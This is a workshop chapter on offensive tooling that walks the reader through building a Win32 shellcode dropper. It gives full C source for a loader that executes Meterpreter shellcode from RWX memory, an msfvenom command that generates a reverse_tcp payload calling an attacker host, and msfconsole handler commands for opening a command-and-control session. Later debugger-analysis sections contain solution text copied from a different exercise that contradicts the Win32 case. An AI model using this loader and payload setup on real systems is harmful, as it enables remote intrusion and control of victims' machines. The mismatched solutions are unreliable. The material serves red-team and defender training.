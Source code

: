 ## Exercise 2: Win32 Dropper
In **Exercise 2** we will create our first shellcode dropper based on **high level APIs** or **Win32 APIs**. This dropper will more or less be the reference for further development into a direct syscall and indirect syscall dropper. Later in this text we call the Dropper High-Level-Dropper. If you look at the figure below, you will see that we do not use direct or indirect syscalls at all. Instead we use the normal legitimate way like ``malware.exe -> Win32 APIs (kernel32.dll) -> Native APIs (ntdll.dll) -> syscall``.  
![_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235367776-54229a66-f1d6-4b8e-a2a2-7bb81fecbf48.png)


## Exercise 2 tasks:
### Creating the Win32 Dropper
1. Download the Win32 dropper POC from the Code section of this chapter.
2. In this case the code is already implemented in the POC. Your first task is to create x64 meterpreter shellcode and copy it into the POC.  
3. Compile the POC as a x64 release. 
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
### Analysing the Direct Syscall Dropper
6. Use the Visual Studio **dumpbin** tool to analyse the syscall dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected?


## Visual Studio
You can download the POC from the code section of this chapter. The technical functionality of the High-Level-Dropper is relatively simple and therefore, in my opinion, perfectly suited to gradually develop the High-Level-Dropper or Win32-Dropper into a Low-Level-Dropper using direct system calls. In the Win32 dropper we use the following Win32 APIs 
- VirtualAlloc
- WriteProcessMemory
- CreateThread
- WaitForSingleObject

The code works like this. First, we need to define the thread function for shellcode execution later in the code.
<details>
    
```
// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}
```
 </details> 
 

Within the main function, the variable **code** is defined, which is responsible for storing the meterpreter shellcode. The content of "code" is stored in the .text (code) section of the PE structure or, if the shellcode is larger than 255 bytes, the shellcode is stored in the .rdata section.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
The next code block defines the function pointer **void***, which points to the variable **exec** and stores the return address of the allocated memory using the Windows API VirtualAlloc.
<details>
    
```
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
 </details>   


The meterpreter shellcode is then copied to the allocated memory using the Windows API **WriteProcessMemory**.
<details>

```
// Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
```
</details>
    

Next, the Windows API **CreateThread** is used to execute the meterpreter shellcode. This is done by creating a new thread.<p align="center">
<details>
    
```
// Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL); 
```
</details>

    
And by using the Windows API **WaitForSingleObject** we need to make sure that the shellcode thread completes its execution before the main thread exits.
<details>  
    
```
// Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);    
```
</details>    

    
Here is the **complete code**, but you can also find it already implemented in the code POC of this chapter.
<details>
    
```
#include <stdio.h>
#include <windows.h>

// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}

int main() {
    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);

    // Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);

    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
In this step, we will create our meterpreter shellcode for the High-Level-Dropper poc with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
**kali>**       
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>
    
The shellcode can then be copied into the High-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.
<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>
    

## MSF-Listener
Before we test the functionality of our High-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled high_level_dropper.exe. If all goes well, you should see an incoming command and control session 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## High-Level-Dropper analysis: dumpbin
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>
    
**cmd>**  
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports high_level.exe
```
</details>
    
<details>
    <summary>Solution</summary>   
In the case of the High-Level-Dropper, you should see that the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are correctly imported into the High-Level-Dropper from the kernel32.dll.
<p align="center">
<img width="693" alt="image" src="https://user-images.githubusercontent.com/50073731/235369396-dbad1178-e9a2-4c55-8c6a-fdc9362d864c.png">
</p>
</details>

    
## High-Level-Dropper analysis: x64dbg
The first step is to run your Win32 dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the Win32 dropper directly in x64dbg, you need to run the assembly first.
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/1d7959d0-9a35-451d-be18-826f4a832737">
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remeber, that in the Win32 dropper no direct syscalls or similar used. Instead we walk the normal way trough ``malware.exe`` -> ``kernel32.dll`` -> ``kernelbase.dll`` -> ``ntdll.dll`` -> ``syscall``. What results do you expect?
<details>
    <summary>Solution</summary>
     Checking the imported symbols in our Win32 dropper, we should see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are imported by kernel32.dll. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/93836da7-aaf0-412d-8871-6cea88b00d83">   
<img width="800" alt="image" src="[https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/93836da7-aaf0-412d-8871-6cea88b00d83](https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/facd43e5-6cb6-44b7-b17b-0dfd8faab28a)">
</p>        
    <summary>Solution</summary>
     We use the the "Follow imported address" function in the symbols register by right clicking on one of the four used Win32 APIs e.g. Virtual Alloc and we can see, that we jump to the memory location of kernel32.dll.
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/55b64891-6e31-4f1b-b566-30489fb41c7b">
</p>       
</details>     
     
     
     
     
     In case of e.g. VirutalAlloc we use the follow in dump function in x64dbg and we can see, we can see that as expected we have the transition from ``kernel32.dll (Virtual Alloc) -> to kernelbase.dll 
     We can also see that instead of asking ntdll.dll for the four native functions used, they are implemented directly in the assembly in the .text region. 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/e2b2b167-7d52-41ec-8d93-c6f0da4ae958">
</p>       
</details>
We also want to check from which module or memory location the syscall stub of the native functions used is implemented, and also check from which module or memory location the syscall statement and return statement are executed.
<details>
    <summary>Solution</summary>
     In the context of the native function ``NtAllocateVirutalMemory``, we follow in the disassembler and should be able to see that the syscall stub is not retrieved from ntdll.dll, instead the stub is implemented directly into the .text section of the assembly. We can also see that the syscall statement and the return statement are executed from the memory location of the syscall dropper assembly.    
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/f78a51a0-fdc8-4c19-8d4b-924024c9dc5b">
</p>       
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/462e794c-1a4f-4bd8-9375-8d503941caa3">
</p>       
</details>     
     
     
     
     
     
     
     
     
     
     
     
     
     
     
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, so far we have not implemented any native APIs or system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your High-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight **ntdll.dll**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. 
    
<p align="center">    
<img width="867" alt="image" src="https://user-images.githubusercontent.com/50073731/235445644-240e5c3b-a3cf-4a7a-99be-27412e2dcb82.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are correctly executed/imported from the .text section in the ntdll.dll module. This investigation is very important because later in the direct syscall exercise we expect a different result with the low level dropper and want to match it.
    
<p align="center">    
<img width="686" alt="image" src="https://user-images.githubusercontent.com/50073731/235445865-c3fe83fa-1539-4ff3-b850-96cc91a0a01d.png">
</p>    
</details>

    
## Summary: High-level API Dropper
- No direct system calls at all
- Syscall execution over normal transition from high_level_dropper.exe -> kernel32.dll -> ntdll.dll -> syscall
- Dropper imports VirtualAlloc from kernel32.dll...
- ...then imports NtAllocateVirtualMemory from ntdll.dll...
- ...and finally executes the corresponding syscall or syscall stub

